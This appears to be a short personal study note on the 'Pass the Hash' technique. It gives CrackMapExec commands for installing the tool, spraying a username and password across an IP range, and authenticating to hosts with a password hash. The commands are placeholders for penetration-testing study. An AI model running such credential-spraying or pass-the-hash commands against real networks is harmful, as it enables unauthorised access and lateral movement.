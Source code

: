 ```yaml
---
title: 1. Pass the Hash
updated: 2023-02-23T20:41:53.0000000+04:00
created: 2023-02-22T10:01:45.0000000+04:00
---
```


AM
![image1](image1-130.png)

\# How to Install?

| Command | sudo apt install crackmapexec |
|---------|-------------------------------|

\# Pass the Password:

| Command | crackmapexec (ip_range) -u (username) -d (Domain Name) -p (Password) |
|---------|----------------------------------------------------------------------|

![image2](image2-65.png)

- It takes the username and password and throughs it around the subnet

\# Pass the Hash

| Command | crackmapexec (ip_range) -H (HASH) --local |
|---------|-------------------------------------------|

![image3](image3-46.png)

